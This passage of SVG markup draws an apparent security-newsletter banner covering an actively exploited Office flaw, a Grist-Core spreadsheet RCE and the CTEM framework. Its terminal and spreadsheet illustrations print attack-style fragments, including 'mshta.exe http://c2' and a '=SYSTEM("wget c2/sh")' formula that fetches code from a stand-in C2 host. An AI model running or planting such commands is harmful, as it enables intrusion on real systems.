    <rect x="0" y="0" width="216" height="22" rx="8" ry="0" fill="#1A2332" />
    <rect x="0" y="14" width="216" height="8" fill="#1A2332" />
    <circle cx="14" cy="11" r="4" fill="#E63946" />
    <circle cx="28" cy="11" r="4" fill="#FFD166" />
    <circle cx="42" cy="11" r="4" fill="#06D6A0" />
    <text x="86" y="15" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9">cmd.exe</text>
    <text x="10" y="40" font-family="Monaco, monospace" font-size="10" fill="#30C060">C:\&gt; powershell.exe</text>
    <text x="10" y="56" font-family="Monaco, monospace" font-size="10" fill="#30C060">  -EncodedCommand</text>
    <text x="10" y="72" font-family="Monaco, monospace" font-size="10" fill="#FFD166">  b64payload</text>
    <text x="10" y="88" font-family="Monaco, monospace" font-size="10" fill="#E63946">mshta.exe http://c2</text>
    <text x="10" y="106" font-family="Monaco, monospace" font-size="9" fill="#8338EC">regsvr32.exe /u /s</text>
    <text x="10" y="122" font-family="Monaco, monospace" font-size="10" fill="#30C060">
      <animate attributeName="opacity" values="0;1;0" dur="1.1s" repeatCount="indefinite" />_</text>
  </g>
  <g transform="translate(56,334)">
    <rect x="0" y="0" width="540" height="72" rx="8" ry="8" fill="#120810" stroke="#8338EC" stroke-width="1.4" />
    <text x="16" y="22" font-family="Monaco, monospace" font-size="11" fill="#8338EC" font-weight="700">C2 CHANNEL  &gt;&gt;  DATA EXFIL</text>
    <rect x="16" y="30" width="508" height="6" rx="3" fill="#1A0A2E" stroke="#8338EC" stroke-width="0.8" />
    <rect x="16" y="30" width="40" height="6" rx="3" fill="#8338EC">
      <animate attributeName="x" values="16;484;16" dur="2.8s" repeatCount="indefinite" />
      <animate attributeName="opacity" values="0.9;0.6;0.9" dur="2.8s" repeatCount="indefinite" />
    </rect>
    <rect x="100" y="30" width="28" height="6" rx="3" fill="#6020C8" opacity="0.7">
      <animate attributeName="x" values="100;460;16;100" dur="3.6s" repeatCount="indefinite" />
    </rect>
    <text x="16" y="60" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9">T1566.001 Spearphishing</text>
    <text x="190" y="60" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9">T1059.001 PowerShell</text>
    <text x="368" y="60" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9">T1041 C2 Exfil</text>
  </g>
  <g transform="translate(54,422)">
    <rect x="0" y="0" width="168" height="58" rx="8" ry="8" fill="#1A0A12" stroke="#E63946" stroke-width="1.5" />
    <text x="12" y="22" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#FF6B80" font-weight="700" letter-spacing="1.5">CVSS 3.1</text>
    <text x="12" y="48" font-family="Helvetica, Arial, sans-serif" font-size="30" font-weight="800" fill="#E63946" filter="url(#txtGlow)">7.8</text>
    <text x="64" y="48" font-family="Helvetica, Arial, sans-serif" font-size="14" fill="#CBD5E1" font-weight="600">HIGH</text>
  </g>
  <g transform="translate(236,422)">
    <rect x="0" y="0" width="168" height="58" rx="8" ry="8" fill="#1A0A12" stroke="#FF4757" stroke-width="1.5" />
    <text x="12" y="22" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#FF6B80" font-weight="700" letter-spacing="1.5">EPSS</text>
    <text x="12" y="48" font-family="Helvetica, Arial, sans-serif" font-size="28" font-weight="800" fill="#FF4757" filter="url(#txtGlow)">84.7%</text>
  </g>
  <g transform="translate(418,422)">
    <rect x="0" y="0" width="168" height="58" rx="8" ry="8" fill="#0A1A0E" stroke="#06D6A0" stroke-width="1.5" />
    <text x="12" y="22" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#06D6A0" font-weight="700" letter-spacing="1.5">PATCH</text>
    <text x="12" y="46" font-family="Helvetica, Arial, sans-serif" font-size="17" font-weight="800" fill="#06D6A0">KB5034173</text>
  </g>
  <g transform="translate(54,500)">
    <rect x="0" y="0" width="192" height="24" rx="3" fill="#E63946" opacity="0.95" />
    <text x="10" y="17" font-family="Helvetica, Arial, sans-serif" font-size="12" font-weight="700" fill="#FFF5F5">ACTIVE IN-THE-WILD EXPLOIT</text>
  </g>
  <text x="262" y="517" font-family="Helvetica, Arial, sans-serif" font-size="13" fill="#8FA3B8" font-style="italic">Microsoft  /  Jan 27, 2026</text>
  <text x="54" y="545" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#7DA3D9">Affects: Office 2019, 2021, Microsoft 365 (DOCX / XLSX / PPTX)</text>
  <rect x="652" y="80" width="516" height="248" rx="14" ry="14" fill="url(#tr1Grad)" stroke="#FF6B35" stroke-width="1.6" opacity="0.98" />
  <rect x="652" y="80" width="516" height="4" fill="#FF6B35">
    <animate attributeName="opacity" values="0.5;1;0.5" dur="4.1s" repeatCount="indefinite" />
  </rect>
  <text x="672" y="112" font-family="Helvetica, Arial, sans-serif" font-size="12" font-weight="700" fill="#FF8C5A" letter-spacing="3">HIGH  /  RCE  /  PoC AVAILABLE</text>
  <text x="672" y="140" font-family="Helvetica, Arial, sans-serif" font-size="24" font-weight="800" fill="#F8FAFC" filter="url(#txtGlow)">Grist-Core RCE</text>
  <text x="672" y="160" font-family="Helvetica, Arial, sans-serif" font-size="13" fill="#CBD5E1">Open-source spreadsheet remote code execution</text>
  <g transform="translate(672,172)">
    <rect x="0" y="0" width="204" height="56" rx="4" ry="4" fill="#1A1428" stroke="#FF6B35" stroke-width="1.2" />
    <rect x="0" y="0" width="32" height="56" fill="#221836" rx="4" ry="0" />
    <text x="8" y="18" font-family="Monaco, monospace" font-size="9" fill="#8FA3B8">A</text>
    <text x="8" y="34" font-family="Monaco, monospace" font-size="9" fill="#8FA3B8">B</text>
    <text x="8" y="50" font-family="Monaco, monospace" font-size="9" fill="#8FA3B8">C</text>
    <text x="38" y="18" font-family="Monaco, monospace" font-size="9" fill="#7DA3D9">budget_2026</text>
    <text x="38" y="34" font-family="Monaco, monospace" font-size="9" fill="#7DA3D9">report_Q1</text>
    <rect x="32" y="40" width="172" height="16" fill="#3A0A18" stroke="#FF6B35" stroke-width="1">
      <animate attributeName="fill" values="#3A0A18;#5A1228;#3A0A18" dur="2.0s" repeatCount="indefinite" />
    </rect>
    <text x="36" y="52" font-family="Monaco, monospace" font-size="9" fill="#FF6B35">=SYSTEM("wget c2/sh")</text>
  </g>
  <path d="M886,202 L928,202" stroke="#FF6B35" stroke-width="1.8" fill="none" stroke-dasharray="4 3">
    <animate attributeName="stroke-dashoffset" values="0;-14" dur="1.0s" repeatCount="indefinite" />
  </path>
  <polygon points="928,198 938,202 928,206" fill="#FF6B35" />
  <g transform="translate(940,182)">
    <circle cx="30" cy="30" r="28" fill="#2A0E18" stroke="#FF6B35" stroke-width="2">
      <animate attributeName="r" values="26;32;26" dur="2.2s" repeatCount="indefinite" />
      <animate attributeName="stroke-width" values="1.5;3;1.5" dur="2.2s" repeatCount="indefinite" />
    </circle>
    <text x="8" y="26" font-family="Helvetica, Arial, sans-serif" font-size="10" font-weight="800" fill="#FF6B35">RCE</text>
    <text x="10" y="40" font-family="Helvetica, Arial, sans-serif" font-size="9" fill="#CBD5E1">EXEC</text>
    <g stroke="#FF6B35" stroke-width="1.2" opacity="0.7">
      <line x1="30" y1="-4" x2="30" y2="-12">
        <animate attributeName="opacity" values="0.4;1;0.4" dur="1.5s" repeatCount="indefinite" />
      </line>
      <line x1="62" y1="30" x2="70" y2="30">
        <animate attributeName="opacity" values="0.4;1;0.4" dur="1.7s" repeatCount="indefinite" />
      </line>
      <line x1="30" y1="62" x2="30" y2="70">
        <animate attributeName="opacity" values="0.4;1;0.4" dur="1.9s" repeatCount="indefinite" />
      </line>
      <line x1="-4" y1="30" x2="-12" y2="30">
        <animate attributeName="opacity" values="0.4;1;0.4" dur="1.3s" repeatCount="indefinite" />
      </line>
      <line x1="52" y1="6" x2="58" y2="0">
        <animate attributeName="opacity" values="0.3;0.9;0.3" dur="2.1s" repeatCount="indefinite" />
      </line>
      <line x1="52" y1="54" x2="58" y2="60">
        <animate attributeName="opacity" values="0.3;0.9;0.3" dur="2.4s" repeatCount="indefinite" />
      </line>
    </g>
  </g>
  <g transform="translate(672,246)">
    <rect x="0" y="0" width="480" height="68" rx="8" ry="8" fill="#1A1020" stroke="#FF6B35" stroke-width="1.2" />
    <text x="14" y="24" font-family="Helvetica, Arial, sans-serif" font-size="12" fill="#FF8C5A" font-weight="700" letter-spacing="1">REMEDIATION</text>
    <text x="14" y="50" font-family="Helvetica, Arial, sans-serif" font-size="21" font-weight="800" fill="#F8FAFC">Upgrade to v1.1.15+</text>
-     <text x="220" y="50" font-family="Helvetica, Arial, sans-serif" font-size="13" fill="#8FA3B8"> — PoC in wild, patch now</text>
+     <text x="220" y="50" font-family="Helvetica, Arial, sans-serif" font-size="13" fill="#8FA3B8"> -- PoC in wild, patch now</text>
    <rect x="450" y="10" width="20" height="48" rx="4" fill="#E63946" opacity="0.9">
      <animate attributeName="opacity" values="0.7;1;0.7" dur="2.0s" repeatCount="indefinite" />
    </rect>
  </g>
  <rect x="652" y="344" width="516" height="246" rx="14" ry="14" fill="url(#br1Grad)" stroke="#06D6A0" stroke-width="1.6" opacity="0.98" />
  <rect x="652" y="344" width="516" height="4" fill="#06D6A0">
    <animate attributeName="opacity" values="0.45;1;0.45" dur="5.2s" repeatCount="indefinite" />
  </rect>
  <text x="672" y="376" font-family="Helvetica, Arial, sans-serif" font-size="12" font-weight="700" fill="#06D6A0" letter-spacing="3">GARTNER  /  BEST PRACTICE</text>
  <text x="672" y="402" font-family="Helvetica, Arial, sans-serif" font-size="24" font-weight="800" fill="#F8FAFC" filter="url(#txtGlow)">CTEM Framework</text>
-   <text x="672" y="420" font-family="Helvetica, Arial, sans-serif" font-size="13" fill="#A5B8C8">Continuous Threat Exposure Management — 5 stages</text>
+   <text x="672" y="420" font-family="Helvetica, Arial, sans-serif" font-size="13" fill="#A5B8C8">Continuous Threat Exposure Management -- 5 stages</text>
  <g transform="translate(672,434)">
    <rect x="0" y="0" width="490" height="16" rx="3" fill="#0A2010" opacity="0.5" />
    <rect x="0" y="0" width="82" height="16" rx="3" fill="url(#ctemBar1)" opacity="0.9">
      <animate attributeName="opacity" values="0.7;1;0.7" dur="3.5s" repeatCount="indefinite" />
    </rect>
    <text x="88" y="13" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#CBD5E1" font-weight="600">01 Scoping</text>
    <rect x="0" y="22" width="490" height="16" rx="3" fill="#0A2010" opacity="0.5" />
    <rect x="0" y="22" width="145" height="16" rx="3" fill="url(#ctemBar2)" opacity="0.9">
      <animate attributeName="opacity" values="0.7;1;0.7" dur="4.0s" repeatCount="indefinite" />
    </rect>
    <text x="151" y="35" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#CBD5E1" font-weight="600">02 Discovery</text>
    <rect x="0" y="44" width="490" height="16" rx="3" fill="#0A2010" opacity="0.5" />
    <rect x="0" y="44" width="228" height="16" rx="3" fill="url(#ctemBar3)" opacity="0.9">
      <animate attributeName="opacity" values="0.7;1;0.7" dur="4.5s" repeatCount="indefinite" />
    </rect>
    <text x="234" y="57" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#CBD5E1" font-weight="600">03 Prioritization</text>
    <rect x="0" y="66" width="490" height="16" rx="3" fill="#0A2010" opacity="0.5" />
    <rect x="0" y="66" width="318" height="16" rx="3" fill="url(#ctemBar4)" opacity="0.9">
      <animate attributeName="opacity" values="0.7;1;0.7" dur="5.0s" repeatCount="indefinite" />
    </rect>
    <text x="324" y="79" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#CBD5E1" font-weight="600">04 Validation</text>
    <rect x="0" y="88" width="490" height="16" rx="3" fill="#0A2010" opacity="0.5" />
    <rect x="0" y="88" width="490" height="16" rx="3" fill="url(#ctemBar5)" opacity="0.85">
      <animate attributeName="opacity" values="0.65;1;0.65" dur="5.5s" repeatCount="indefinite" />
    </rect>
    <text x="10" y="101" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#F8FAFC" font-weight="700">05 Mobilization</text>
  </g>
  <g transform="translate(672,546)">
    <rect x="0" y="0" width="148" height="22" rx="3" fill="#0A2018" stroke="#06D6A0" stroke-width="1" />
    <text x="8" y="15" font-family="Helvetica, Arial, sans-serif" font-size="11" font-weight="700" fill="#06D6A0">Gartner Best Practice</text>
  </g>
  <text x="832" y="561" font-family="Helvetica, Arial, sans-serif" font-size="12" fill="#7DA3D9" font-style="italic">Splunk / CrowdStrike EDR  /  2026</text>
  <rect x="0" y="596" width="1200" height="34" fill="#030810" opacity="0.92" />
  <text x="36" y="618" font-family="Helvetica, Arial, sans-serif" font-size="12" fill="#5A7090" letter-spacing="1">tech.2twodragon.com</text>
  <text x="1164" y="618" font-family="Helvetica, Arial, sans-serif" font-size="11" fill="#5A7090" text-anchor="end" letter-spacing="1">Security Weekly  |  Jan 28, 2026</text>
  <g transform="translate(1080,504)" filter="url(#softShadow)">
    <rect x="-8" y="-8" width="100" height="100" rx="6" fill="#FFFFFF" />
    <g transform="scale(1.866667)" fill="#0A1020">
      <path d="M0 0h7v1h-7zM14 0h2v1h-2zM17 0h4v1h-4zM22 0h1v1h-1zM25 0h3v1h-3zM29 0h2v1h-2zM33 0h1v1h-1zM36 0h1v1h-1zM38 0h7v1h-7zM0 1h1v1h-1zM6 1h1v1h-1zM9 1h1v1h-1zM11 1h1v1h-1zM13 1h3v1h-3zM17 1h1v1h-1zM19 1h3v1h-3zM26 1h3v1h-3zM30 1h1v1h-1zM35 1h1v1h-1zM38 1h1v1h-1zM44 1h1v1h-1zM0 2h1v1h-1zM2 2h3v1h-3zM6 2h1v1h-1zM9 2h2v1h-2zM16 2h1v1h-1zM18 2h6v1h-6zM25 2h4v1h-4zM32 2h1v1h-1zM35 2h1v1h-1zM38 2h1v1h-1zM40 2h3v1h-3zM44 2h1v1h-1zM0 3h1v1h-1zM2 3h3v1h-3zM6 3h1v1h-1zM10 3h1v1h-1zM13 3h1v1h-1zM20 3h3v1h-3zM24 3h1v1h-1zM26 3h1v1h-1zM30 3h1v1h-1zM35 3h2v1h-2zM38 3h1v1h-1zM40 3h3v1h-3zM44 3h1v1h-1zM0 4h1v1h-1zM2 4h3v1h-3zM6 4h1v1h-1zM11 4h2v1h-2zM15 4h3v1h-3zM20 4h12v1h-12zM33 4h4v1h-4zM38 4h1v1h-1zM40 4h3v1h-3zM44 4h1v1h-1zM0 5h1v1h-1zM6 5h1v1h-1zM8 5h2v1h-2zM11 5h1v1h-1zM13 5h1v1h-1zM15 5h1v1h-1zM17 5h4v1h-4zM24 5h3v1h-3zM28 5h2v1h-2zM31 5h2v1h-2zM38 5h1v1h-1zM44 5h1v1h-1zM0 6h7v1h-7zM8 6h1v1h-1zM10 6h1v1h-1zM12 6h1v1h-1zM14 6h1v1h-1zM16 6h1v1h-1zM18 6h1v1h-1zM20 6h1v1h-1zM22 6h1v1h-1zM24 6h1v1h-1zM26 6h1v1h-1zM28 6h1v1h-1zM30 6h1v1h-1zM32 6h1v1h-1zM34 6h1v1h-1zM36 6h1v1h-1zM38 6h7v1h-7zM9 7h1v1h-1zM12 7h1v1h-1zM14 7h7v1h-7zM24 7h1v1h-1zM27 7h1v1h-1zM30 7h2v1h-2zM34 7h2v1h-2zM0 8h1v1h-1zM3 8h1v1h-1zM5 8h2v1h-2zM8 8h3v1h-3zM13 8h1v1h-1zM19 8h7v1h-7zM27 8h2v1h-2zM31 8h1v1h-1zM34 8h1v1h-1zM37 8h1v1h-1zM39 8h1v1h-1zM2 9h2v1h-2zM5 9h1v1h-1zM7 9h1v1h-1zM15 9h3v1h-3zM20 9h2v1h-2zM27 9h2v1h-2zM32 9h1v1h-1zM37 9h1v1h-1zM40 9h1v1h-1zM44 9h1v1h-1zM1 10h4v1h-4zM6 10h2v1h-2zM9 10h4v1h-4zM16 10h1v1h-1zM18 10h1v1h-1zM20 10h1v1h-1zM22 10h1v1h-1zM24 10h2v1h-2zM30 10h3v1h-3zM34 10h3v1h-3zM42 10h1v1h-1zM44 10h1v1h-1zM3 11h1v1h-1zM5 11h1v1h-1zM7 11h1v1h-1zM9 11h2v1h-2zM12 11h2v1h-2zM19 11h2v1h-2zM23 11h1v1h-1zM25 11h5v1h-5zM31 11h1v1h-1zM33 11h1v1h-1zM35 11h1v1h-1zM37 11h3v1h-3zM41 11h1v1h-1zM43 11h2v1h-2zM2 12h1v1h-1zM4 12h4v1h-4zM11 12h2v1h-2zM14 12h1v1h-1zM16 12h5v1h-5zM24 12h2v1h-2zM28 12h3v1h-3zM32 12h1v1h-1zM34 12h2v1h-2zM38 12h4v1h-4zM0 13h2v1h-2zM3 13h1v1h-1zM5 13h1v1h-1zM9 13h5v1h-5zM16 13h3v1h-3zM24 13h2v1h-2zM28 13h1v1h-1zM33 13h3v1h-3zM41 13h3v1h-3zM0 14h2v1h-2zM4 14h3v1h-3zM12 14h1v1h-1zM14 14h3v1h-3zM18 14h1v1h-1zM20 14h1v1h-1zM24 14h1v1h-1zM26 14h3v1h-3zM30 14h1v1h-1zM32 14h2v1h-2zM37 14h3v1h-3zM43 14h1v1h-1zM0 15h1v1h-1zM2 15h1v1h-1zM4 15h2v1h-2zM7 15h2v1h-2zM10 15h2v1h-2zM13 15h1v1h-1zM16 15h1v1h-1zM18 15h1v1h-1zM22 15h1v1h-1zM27 15h2v1h-2zM32 15h2v1h-2zM36 15h1v1h-1zM39 15h1v1h-1zM44 15h1v1h-1zM6 16h2v1h-2zM9 16h1v1h-1zM12 16h1v1h-1zM15 16h1v1h-1zM17 16h4v1h-4zM23 16h2v1h-2zM26 16h2v1h-2zM30 16h6v1h-6zM37 16h3v1h-3zM43 16h2v1h-2zM0 17h1v1h-1zM2 17h1v1h-1zM7 17h2v1h-2zM10 17h2v1h-2zM14 17h1v1h-1zM16 17h1v1h-1zM18 17h1v1h-1zM20 17h2v1h-2zM23 17h2v1h-2zM26 17h1v1h-1zM29 17h1v1h-1zM31 17h1v1h-1zM35 17h1v1h-1zM38 17h1v1h-1zM40 17h2v1h-2zM43 17h1v1h-1zM0 18h4v1h-4zM6 18h2v1h-2zM11 18h2v1h-2zM14 18h1v1h-1zM16 18h1v1h-1zM19 18h3v1h-3zM23 18h4v1h-4zM29 18h1v1h-1zM31 18h1v1h-1zM33 18h1v1h-1zM35 18h1v1h-1zM39 18h1v1h-1zM42 18h3v1h-3zM3 19h1v1h-1zM7 19h5v1h-5zM13 19h2v1h-2zM19 19h1v1h-1zM22 19h1v1h-1zM25 19h2v1h-2zM28 19h1v1h-1zM31 19h2v1h-2zM34 19h1v1h-1zM36 19h2v1h-2zM43 19h1v1h-1zM0 20h1v1h-1zM3 20h6v1h-6zM10 20h2v1h-2zM13 20h2v1h-2zM16 20h1v1h-1zM18 20h7v1h-7zM26 20h6v1h-6zM34 20h1v1h-1zM36 20h8v1h-8zM0 21h5v1h-5zM8 21h1v1h-1zM10 21h3v1h-3zM16 21h1v1h-1zM19 21h2v1h-2zM24 21h1v1h-1zM26 21h2v1h-2zM32 21h1v1h-1zM36 21h1v1h-1zM40 21h1v1h-1zM44 21h1v1h-1zM2 22h3v1h-3zM6 22h1v1h-1zM8 22h2v1h-2zM11 22h1v1h-1zM13 22h1v1h-1zM18 22h3v1h-3zM22 22h1v1h-1zM24 22h3v1h-3zM28 22h1v1h-1zM33 22h1v1h-1zM35 22h2v1h-2zM38 22h1v1h-1zM40 22h1v1h-1zM42 22h1v1h-1zM44 22h1v1h-1zM1 23h1v1h-1zM3 23h2v1h-2zM8 23h1v1h-1zM11 23h1v1h-1zM13 23h1v1h-1zM17 23h1v1h-1zM20 23h1v1h-1zM24 23h1v1h-1zM26 23h1v1h-1zM28 23h3v1h-3zM32 23h1v1h-1zM36 23h1v1h-1zM40 23h2v1h-2zM0 24h1v1h-1zM4 24h6v1h-6zM11 24h1v1h-1zM13 24h2v1h-2zM16 24h1v1h-1zM18 24h1v1h-1zM20 24h6v1h-6zM27 24h3v1h-3zM31 24h11v1h-11zM44 24h1v1h-1zM3 25h2v1h-2zM7 25h1v1h-1zM9 25h2v1h-2zM13 25h1v1h-1zM15 25h2v1h-2zM19 25h1v1h-1zM21 25h1v1h-1zM25 25h1v1h-1zM27 25h2v1h-2zM31 25h1v1h-1zM34 25h2v1h-2zM37 25h5v1h-5zM44 25h1v1h-1zM0 26h3v1h-3zM6 26h7v1h-7zM14 26h1v1h-1zM17 26h2v1h-2zM20 26h1v1h-1zM23 26h1v1h-1zM26 26h4v1h-4zM31 26h2v1h-2zM36 26h2v1h-2zM43 26h1v1h-1zM4 27h2v1h-2zM7 27h2v1h-2zM10 27h1v1h-1zM16 27h2v1h-2zM19 27h2v1h-2zM23 27h1v1h-1zM27 27h1v1h-1zM30 27h1v1h-1zM32 27h2v1h-2zM36 27h1v1h-1zM38 27h2v1h-2zM41 27h1v1h-1zM43 27h1v1h-1zM0 28h1v1h-1zM6 28h1v1h-1zM8 28h4v1h-4zM14 28h1v1h-1zM20 28h2v1h-2zM26 28h2v1h-2zM29 28h1v1h-1zM31 28h3v1h-3zM37 28h1v1h-1zM39 28h2v1h-2zM43 28h2v1h-2zM0 29h2v1h-2zM3 29h1v1h-1zM7 29h3v1h-3zM12 29h1v1h-1zM14 29h2v1h-2zM18 29h2v1h-2zM22 29h3v1h-3zM26 29h1v1h-1zM28 29h2v1h-2zM31 29h1v1h-1zM33 29h1v1h-1zM35 29h3v1h-3zM41 29h4v1h-4zM1 30h1v1h-1zM3 30h4v1h-4zM8 30h4v1h-4zM13 30h2v1h-2zM16 30h1v1h-1zM19 30h3v1h-3zM24 30h1v1h-1zM28 30h3v1h-3zM32 30h1v1h-1zM36 30h1v1h-1zM38 30h1v1h-1zM40 30h1v1h-1zM42 30h3v1h-3zM1 31h2v1h-2zM7 31h1v1h-1zM10 31h1v1h-1zM12 31h2v1h-2zM17 31h1v1h-1zM19 31h2v1h-2zM24 31h4v1h-4zM32 31h1v1h-1zM34 31h1v1h-1zM38 31h3v1h-3zM43 31h2v1h-2zM0 32h2v1h-2zM4 32h3v1h-3zM12 32h2v1h-2zM15 32h2v1h-2zM18 32h2v1h-2zM21 32h3v1h-3zM25 32h4v1h-4zM34 32h3v1h-3zM39 32h2v1h-2zM43 32h2v1h-2zM2 33h3v1h-3zM7 33h6v1h-6zM15 33h1v1h-1zM18 33h3v1h-3zM24 33h1v1h-1zM27 33h2v1h-2zM31 33h1v1h-1zM36 33h3v1h-3zM43 33h2v1h-2zM4 34h1v1h-1zM6 34h1v1h-1zM8 34h3v1h-3zM16 34h2v1h-2zM19 34h1v1h-1zM26 34h2v1h-2zM31 34h1v1h-1zM33 34h1v1h-1zM36 34h4v1h-4zM41 34h2v1h-2zM44 34h1v1h-1zM1 35h4v1h-4zM10 35h5v1h-5zM17 35h2v1h-2zM23 35h1v1h-1zM25 35h5v1h-5zM31 35h1v1h-1zM34 35h2v1h-2zM40 35h2v1h-2zM44 35h1v1h-1zM0 36h1v1h-1zM3 36h2v1h-2zM6 36h1v1h-1zM8 36h1v1h-1zM12 36h2v1h-2zM18 36h16v1h-16zM36 36h5v1h-5zM42 36h3v1h-3zM8 37h1v1h-1zM13 37h1v1h-1zM15 37h1v1h-1zM17 37h1v1h-1zM19 37h2v1h-2zM24 37h1v1h-1zM31 37h2v1h-2zM34 37h1v1h-1zM36 37h1v1h-1zM40 37h1v1h-1zM43 37h2v1h-2zM0 38h7v1h-7zM10 38h2v1h-2zM14 38h1v1h-1zM17 38h4v1h-4zM22 38h1v1h-1zM24 38h2v1h-2zM28 38h2v1h-2zM34 38h1v1h-1zM36 38h1v1h-1zM38 38h1v1h-1zM40 38h4v1h-4zM0 39h1v1h-1zM6 39h1v1h-1zM8 39h3v1h-3zM15 39h1v1h-1zM18 39h1v1h-1zM20 39h1v1h-1zM24 39h1v1h-1zM26 39h3v1h-3zM31 39h1v1h-1zM33 39h1v1h-1zM36 39h1v1h-1zM40 39h1v1h-1zM44 39h1v1h-1zM0 40h1v1h-1zM2 40h3v1h-3zM6 40h1v1h-1zM9 40h1v1h-1zM12 40h4v1h-4zM17 40h1v1h-1zM19 40h6v1h-6zM27 40h1v1h-1zM32 40h10v1h-10zM0 41h1v1h-1zM2 41h3v1h-3zM6 41h1v1h-1zM8 41h3v1h-3zM12 41h2v1h-2zM16 41h1v1h-1zM19 41h3v1h-3zM24 41h1v1h-1zM26 41h1v1h-1zM28 41h2v1h-2zM36 41h2v1h-2zM41 41h2v1h-2zM0 42h1v1h-1zM2 42h3v1h-3zM6 42h1v1h-1zM9 42h2v1h-2zM12 42h1v1h-1zM14 42h4v1h-4zM19 42h4v1h-4zM27 42h1v1h-1zM31 42h1v1h-1zM35 42h7v1h-7zM43 42h2v1h-2zM0 43h1v1h-1zM6 43h1v1h-1zM9 43h3v1h-3zM13 43h1v1h-1zM15 43h1v1h-1zM17 43h2v1h-2zM20 43h1v1h-1zM24 43h1v1h-1zM27 43h3v1h-3zM31 43h2v1h-2zM35 43h3v1h-3zM40 43h2v1h-2zM0 44h7v1h-7zM8 44h1v1h-1zM12 44h4v1h-4zM18 44h2v1h-2zM21 44h1v1h-1zM24 44h6v1h-6zM33 44h1v1h-1zM35 44h2v1h-2zM38 44h1v1h-1zM43 44h1v1h-1z" />
    </g>
  </g>
  <text x="1122" y="614" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" font-weight="700" fill="#F5F7FA" text-anchor="middle">scan / full post</text>
</svg>
